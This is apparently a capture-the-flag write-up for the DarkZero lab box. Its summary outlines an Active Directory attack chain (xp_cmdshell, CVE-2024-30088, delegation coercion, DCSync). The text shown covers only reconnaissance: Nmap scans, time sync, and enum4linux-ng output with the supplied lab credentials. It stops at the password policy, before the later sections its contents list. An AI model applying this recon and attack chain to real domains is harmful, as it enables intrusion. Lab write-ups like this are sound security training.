

## Table of Contents

- [Summary](#Summary)
- [Machine Information](#Machine-Information)
- [Reconnaissance Part 1](#Reconnaissance-Part-1)
    - [Port Scanning](#Port-Scanning)
    - [Synchronize Time and Date](#Synchronize-Time-and-Date)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
        - [RID Brute Force](#RID-Brute-Force)
- [Initial Access](#Initial-Access)
    - [Enumeration of Port 1433/TCP](#Enumeration-of-Port-1433TCP)
    - [Code Execution on DC02](#Code-Execution-on-DC02)
    - [Lateral Movement to DC02](#Lateral-Movement-to-DC02)
- [Enumeration (svc_sql)](#Enumeration-svc_sql)
- [Reconnaissance Part 2](#Reconnaissance-Part-2)
    - [Active Directory Configuration Dump](#Active-Directory-Configuration-Dump)
- [Privilege Escalation to SYSTEM on DC02](#Privilege-Escalation-to-SYSTEM-on-DC02)
    - [CVE-2024-30088: authz_basep](#CVE-2024-30088-authz_basep)
- [user.txt](#usertxt)
- [Credential Harvesting](#Credential-Harvesting)
- [Privilege Escalation to SYSTEM on DC01](#Privilege-Escalation-to-SYSTEM-on-DC01)
    - [Unconstrained Delegation through Coercing](#Unconstrained-Delegation-through-Coercing)
        - [Port Forwarding](#Port-Forwarding)
    - [Use Rubeus to catch Ticket Granting Ticket (TGT)](#Use-Rubeus-to-catch-Ticket-Granting-Ticket-TGT)
    - [DCSync](#DCSync)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Summary

First of all - this box was super cool! The box start with the very unusual exposed port of `1433/TCP` which is used by the `Microsoft SQL Server (MSSQL)`. The provided `credentials` allow to `authenticate` with the instance running on `DC01.darkzero.htb`.

The `Enumeration` of the instance shows that there is a linked `MSSQL` instance running on `DC02.darkzero.ext`. Having the `privileges` as `sysadmin` allows to enable `xp_cmdshell` to achieve `Code Execution` on `DC02` and end up in `Lateral Movement`.

The first `Privilege Escalation` is happening on `DC02` through `CVE-2024-30088` which describes a flaw in the `Micsoft Windows Server Kernel`, affecting all version and allowing `Token Manipulation` to perform `Local Privilege Escalation (LPE)`.

This leads to the `user.txt` inside the `Desktop` of `Administrator` on `DC02`.

After dumping the `Configuration` of the `Active Directory` of `DC01` it shows that `DC01` is configured to allow `Unconstrained Delegation`.

To abuse this `Misconfiguration` it is necessary to `coerce` a request from `DC01` to `DC02` through `MSSQL` and catch the `Ticket Granting Ticket (TGT)` using `Rubeus`. As last step `mimikatz` can be used from withing the `Metasploit` shell to perform a `DCSync` and to grab the `Hash` of `Administrator` of `DC01`.

This results in access to the `root.txt`.

Very good box!

## Machine Information

As is common in real life pentests, you will start the DarkZero box with credentials for the following account `john.w / RFulUtONCOL!`.

## Reconnaissance Part 1

### Port Scanning

We started the box with our initial `port scan` using `Nmap` as always. Besides the typical ports for a `Microsoft Windows Server Operating System` we found port `1433/TCP` to be open, which was used by `Microsoft SQL Server (MSSQL)`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.100.222 --min-rate 10000
[sudo] password for kali:
Nmap scan report for 10.129.100.222
Host is up (0.047s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49666/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49891/tcp open  unknown
49908/tcp open  unknown
49963/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 20.61 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.100.222       
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-04 21:07 CEST
Nmap scan report for 10.129.100.222
Host is up (0.016s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-05 02:07:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.100.222:1433: 
|     Target_Name: darkzero
|     NetBIOS_Domain_Name: darkzero
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: darkzero.htb
|     DNS_Computer_Name: DC01.darkzero.htb
|     DNS_Tree_Name: darkzero.htb
|_    Product_Version: 10.0.26100
| ms-sql-info: 
|   10.129.100.222:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-10-05T02:08:34+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-05T02:03:43
|_Not valid after:  2055-10-05T02:03:43
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-10-05T02:07:54
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.50 seconds
```

### Synchronize Time and Date

Based on the output of the port scan we were knowing that we had to deal with a `Domain Controller (DC)` and spare us the suffering later, we `synchronized` our local `time and date` with the `DC`, before we moved on.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
[sudo] password for kali: 
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.100.222
```

### Domain Enumeration

While the scan of `Nmap` with the options of `-sC` and `-sV` were running, which are for `default scripts` and `version enumeration`, we used `enum4linux-ng` to have an `authenticated look` at what the server had to offer.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.100.222 -u 'john.w' -p 'RFulUtONCOL!'
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.100.222
[*] Username ......... 'john.w'
[*] Random Username .. 'mjclbkhn'
[*] Password ......... 'RFulUtONCOL!'
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.100.222    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.100.222    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: darkzero.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.100.222    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 10.129.100.222    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                                                                                                                                                                                                                       
  SMB 1.0: false                                                                                                                                                                                                                                                                                                                                                                                                                          
  SMB 2.02: true                                                                                                                                                                                                                                                                                                                                                                                                                          
  SMB 2.1: true                                                                                                                                                                                                                                                                                                                                                                                                                           
  SMB 3.0: true                                                                                                                                                                                                                                                                                                                                                                                                                           
  SMB 3.1.1: true                                                                                                                                                                                                                                                                                                                                                                                                                         
Preferred dialect: SMB 3.0                                                                                                                                                                                                                                                                                                                                                                                                                
SMB1 only: false                                                                                                                                                                                                                                                                                                                                                                                                                          
SMB signing required: true                                                                                                                                                                                                                                                                                                                                                                                                                

 =============================================================
|    Domain Information via SMB session for 10.129.100.222    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                                                                                                                                                                                                               
NetBIOS domain name: darkzero                                                                                                                                                                                                                                                                                                                                                                                                             
DNS domain: darkzero.htb                                                                                                                                                                                                                                                                                                                                                                                                                  
FQDN: DC01.darkzero.htb                                                                                                                                                                                                                                                                                                                                                                                                                   
Derived membership: domain member                                                                                                                                                                                                                                                                                                                                                                                                         
Derived domain: darkzero                                                                                                                                                                                                                                                                                                                                                                                                                  

 ===========================================
|    RPC Session Check on 10.129.100.222    |
 ===========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for user session
[+] Server allows session using username 'john.w', password 'RFulUtONCOL!'
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 =====================================================
|    Domain Information via RPC for 10.129.100.222    |
 =====================================================
[+] Domain: darkzero
[+] Domain SID: S-1-5-21-1152179935-589108180-1989892463
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 10.129.100.222    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                                                                                                                                                                                                                  
OS version: '10.0'                                                                                                                                                                                                                                                                                                                                                                                                                        
OS release: ''                                                                                                                                                                                                                                                                                                                                                                                                                            
OS build: '26100'                                                                                                                                                                                                                                                                                                                                                                                                                         
Native OS: not supported                                                                                                                                                                                                                                                                                                                                                                                                                  
Native LAN manager: not supported                                                                                                                                                                                                                                                                                                                                                                                                         
Platform id: '500'                                                                                                                                                                                                                                                                                                                                                                                                                        
Server type: '0x80102f'                                                                                                                                                                                                                                                                                                                                                                                                                   
Server type string: Wk Sv Sql PDC Tim NT                                                                                                                                                                                                                                                                                                                                                                                                  

 =======================================
|    Users via RPC on 10.129.100.222    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[+] Found 4 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 4 user(s) via 'enumdomusers'
[+] After merging user results we have 4 user(s) total:
'2603':                                                                                                                                                                                                                                                                                                                                                                                                                                   
  username: john.w                                                                                                                                                                                                                                                                                                                                                                                                                        
  name: (null)                                                                                                                                                                                                                                                                                                                                                                                                                            
  acb: '0x00000210'                                                                                                                                                                                                                                                                                                                                                                                                                       
  description: (null)                                                                                                                                                                                                                                                                                                                                                                                                                     
'500':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  username: Administrator                                                                                                                                                                                                                                                                                                                                                                                                                 
  name: (null)                                                                                                                                                                                                                                                                                                                                                                                                                            
  acb: '0x00000210'                                                                                                                                                                                                                                                                                                                                                                                                                       
  description: Built-in account for administering the computer/domain                                                                                                                                                                                                                                                                                                                                                                     
'501':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  username: Guest                                                                                                                                                                                                                                                                                                                                                                                                                         
  name: (null)                                                                                                                                                                                                                                                                                                                                                                                                                            
  acb: '0x00000215'                                                                                                                                                                                                                                                                                                                                                                                                                       
  description: Built-in account for guest access to the computer/domain                                                                                                                                                                                                                                                                                                                                                                   
'502':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  username: krbtgt                                                                                                                                                                                                                                                                                                                                                                                                                        
  name: (null)                                                                                                                                                                                                                                                                                                                                                                                                                            
  acb: '0x00020011'                                                                                                                                                                                                                                                                                                                                                                                                                       
  description: Key Distribution Center Service Account                                                                                                                                                                                                                                                                                                                                                                                    

 ========================================
|    Groups via RPC on 10.129.100.222    |
 ========================================
[*] Enumerating local groups
[+] Found 6 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 29 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 17 group(s) via 'enumdomgroups'
[+] After merging groups results we have 52 group(s) total:
'1101':                                                                                                                                                                                                                                                                                                                                                                                                                                   
  groupname: DnsAdmins                                                                                                                                                                                                                                                                                                                                                                                                                    
  type: local                                                                                                                                                                                                                                                                                                                                                                                                                             
'1102':                                                                                                                                                                                                                                                                                                                                                                                                                                   
  groupname: DnsUpdateProxy                                                                                                                                                                                                                                                                                                                                                                                                               
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'2601':                                                                                                                                                                                                                                                                                                                                                                                                                                   
  groupname: SQLServer2005SQLBrowserUser$DC01                                                                                                                                                                                                                                                                                                                                                                                             
  type: local                                                                                                                                                                                                                                                                                                                                                                                                                             
'498':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Enterprise Read-only Domain Controllers                                                                                                                                                                                                                                                                                                                                                                                      
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'512':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Domain Admins                                                                                                                                                                                                                                                                                                                                                                                                                
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'513':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Domain Users                                                                                                                                                                                                                                                                                                                                                                                                                 
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'514':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Domain Guests                                                                                                                                                                                                                                                                                                                                                                                                                
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'515':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Domain Computers                                                                                                                                                                                                                                                                                                                                                                                                             
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'516':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Domain Controllers                                                                                                                                                                                                                                                                                                                                                                                                           
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'517':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Cert Publishers                                                                                                                                                                                                                                                                                                                                                                                                              
  type: local                                                                                                                                                                                                                                                                                                                                                                                                                             
'518':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Schema Admins                                                                                                                                                                                                                                                                                                                                                                                                                
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'519':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Enterprise Admins                                                                                                                                                                                                                                                                                                                                                                                                            
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'520':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Group Policy Creator Owners                                                                                                                                                                                                                                                                                                                                                                                                  
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'521':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Read-only Domain Controllers                                                                                                                                                                                                                                                                                                                                                                                                 
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'522':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Cloneable Domain Controllers                                                                                                                                                                                                                                                                                                                                                                                                 
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'525':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Protected Users                                                                                                                                                                                                                                                                                                                                                                                                              
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'526':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Key Admins                                                                                                                                                                                                                                                                                                                                                                                                                   
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'527':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Enterprise Key Admins                                                                                                                                                                                                                                                                                                                                                                                                        
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'528':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Forest Trust Accounts                                                                                                                                                                                                                                                                                                                                                                                                        
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'529':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: External Trust Accounts                                                                                                                                                                                                                                                                                                                                                                                                      
  type: domain                                                                                                                                                                                                                                                                                                                                                                                                                            
'544':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Administrators                                                                                                                                                                                                                                                                                                                                                                                                               
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'545':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Users                                                                                                                                                                                                                                                                                                                                                                                                                        
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'546':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Guests                                                                                                                                                                                                                                                                                                                                                                                                                       
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'548':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Account Operators                                                                                                                                                                                                                                                                                                                                                                                                            
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'549':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Server Operators                                                                                                                                                                                                                                                                                                                                                                                                             
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'550':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Print Operators                                                                                                                                                                                                                                                                                                                                                                                                              
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'551':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Backup Operators                                                                                                                                                                                                                                                                                                                                                                                                             
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'552':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Replicator                                                                                                                                                                                                                                                                                                                                                                                                                   
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'553':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: RAS and IAS Servers                                                                                                                                                                                                                                                                                                                                                                                                          
  type: local                                                                                                                                                                                                                                                                                                                                                                                                                             
'554':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Pre-Windows 2000 Compatible Access                                                                                                                                                                                                                                                                                                                                                                                           
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'555':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Remote Desktop Users                                                                                                                                                                                                                                                                                                                                                                                                         
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'556':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Network Configuration Operators                                                                                                                                                                                                                                                                                                                                                                                              
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'557':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Incoming Forest Trust Builders                                                                                                                                                                                                                                                                                                                                                                                               
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'558':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Performance Monitor Users                                                                                                                                                                                                                                                                                                                                                                                                    
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'559':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Performance Log Users                                                                                                                                                                                                                                                                                                                                                                                                        
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'560':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Windows Authorization Access Group                                                                                                                                                                                                                                                                                                                                                                                           
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'561':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Terminal Server License Servers                                                                                                                                                                                                                                                                                                                                                                                              
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'562':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Distributed COM Users                                                                                                                                                                                                                                                                                                                                                                                                        
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'568':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: IIS_IUSRS                                                                                                                                                                                                                                                                                                                                                                                                                    
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'569':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Cryptographic Operators                                                                                                                                                                                                                                                                                                                                                                                                      
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'571':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Allowed RODC Password Replication Group                                                                                                                                                                                                                                                                                                                                                                                      
  type: local                                                                                                                                                                                                                                                                                                                                                                                                                             
'572':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Denied RODC Password Replication Group                                                                                                                                                                                                                                                                                                                                                                                       
  type: local                                                                                                                                                                                                                                                                                                                                                                                                                             
'573':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Event Log Readers                                                                                                                                                                                                                                                                                                                                                                                                            
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'574':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Certificate Service DCOM Access                                                                                                                                                                                                                                                                                                                                                                                              
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'575':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: RDS Remote Access Servers                                                                                                                                                                                                                                                                                                                                                                                                    
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'576':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: RDS Endpoint Servers                                                                                                                                                                                                                                                                                                                                                                                                         
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'577':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: RDS Management Servers                                                                                                                                                                                                                                                                                                                                                                                                       
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'578':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Hyper-V Administrators                                                                                                                                                                                                                                                                                                                                                                                                       
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'579':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Access Control Assistance Operators                                                                                                                                                                                                                                                                                                                                                                                          
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'580':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Remote Management Users                                                                                                                                                                                                                                                                                                                                                                                                      
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'582':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: Storage Replica Administrators                                                                                                                                                                                                                                                                                                                                                                                               
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           
'585':                                                                                                                                                                                                                                                                                                                                                                                                                                    
  groupname: OpenSSH Users                                                                                                                                                                                                                                                                                                                                                                                                                
  type: builtin                                                                                                                                                                                                                                                                                                                                                                                                                           

 ========================================
|    Shares via RPC on 10.129.100.222    |
 ========================================
[*] Enumerating shares
[+] Found 5 share(s):
ADMIN$:                                                                                                                                                                                                                                                                                                                                                                                                                                   
  comment: Remote Admin                                                                                                                                                                                                                                                                                                                                                                                                                   
  type: Disk                                                                                                                                                                                                                                                                                                                                                                                                                              
C$:                                                                                                                                                                                                                                                                                                                                                                                                                                       
  comment: Default share                                                                                                                                                                                                                                                                                                                                                                                                                  
  type: Disk                                                                                                                                                                                                                                                                                                                                                                                                                              
IPC$:                                                                                                                                                                                                                                                                                                                                                                                                                                     
  comment: Remote IPC                                                                                                                                                                                                                                                                                                                                                                                                                     
  type: IPC                                                                                                                                                                                                                                                                                                                                                                                                                               
NETLOGON:                                                                                                                                                                                                                                                                                                                                                                                                                                 
  comment: Logon server share                                                                                                                                                                                                                                                                                                                                                                                                             
  type: Disk                                                                                                                                                                                                                                                                                                                                                                                                                              
SYSVOL:                                                                                                                                                                                                                                                                                                                                                                                                                                   
  comment: Logon server share                                                                                                                                                                                                                                                                                                                                                                                                             
  type: Disk                                                                                                                                                                                                                                                                                                                                                                                                                              
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share NETLOGON
[+] Mapping: OK, Listing: OK
[*] Testing share SYSVOL
[+] Mapping: OK, Listing: OK

 ===========================================
|    Policies via RPC for 10.129.100.222    |
 ===========================================
[*] Trying port 445/tcp
/home/kali/opt/01_information_gathering/enum4linux-ng/enum4linux-ng.py:2686: DeprecationWarning: datetime.datetime.utcfromtimestamp() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.fromtimestamp(timestamp, datetime.UTC).
  minutes = datetime.utcfromtimestamp(tmp).minute
/home/kali/opt/01_information_gathering/enum4linux-ng/enum4linux-ng.py:2687: DeprecationWarning: datetime.datetime.utcfromtimestamp() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.fromtimestamp(timestamp, datetime.UTC).
  hours = datetime.utcfromtimestamp(tmp).hour
/home/kali/opt/01_information_gathering/enum4linux-ng/enum4linux-ng.py:2688: DeprecationWarning: datetime.datetime.utcfromtimestamp() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.fromtimestamp(timestamp, datetime.UTC).
  time_diff = datetime.utcfromtimestamp(tmp) - datetime.utcfromtimestamp(0)
[+] Found policy:
Domain password information:                                                                                                                                                                                                                                                                                                                                                                                                              
  Password history length: 24                                                                                                                                                                                                                                                                                                                                                                                                             
  Minimum password length: 7                                                                                                                                                                                                                                                                                                                                                                                                              
  Maximum password age: 41 days 23 hours 53 minutes                                                                                                                                                                                                                                                                                                                                                                                       
  Password properties:                                                                                                                                                                                                                                                                                                                                                                                                                    
  - DOMAIN_PASSWORD_COMPLEX: true                                                                                                                                                                                                                                                                                                                                                                                                         
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false                                                                                                                                                                                                                                                                                                                                                                                                 
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false                                                                                                                                                                                                                                                                                                                                                                                                
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false                                                                                                                                                                                                                                                                                                                                                                                                 
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false                                                                                                                                                                                                                                                                                                                                                                                       
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false                                                                                                                                                                                                                                                                                                                                                                                         
Domain lockout information:                                                                                                                                                                                                                                                                                                                                                                                                               
  Lockout observation window: 10 minutes                                                                                                                                                                                                                                                                                                                                                                                                  
  Lockout duration: 10 minutes                                                                                                                                                                                                                                                                                                                                                                                                            
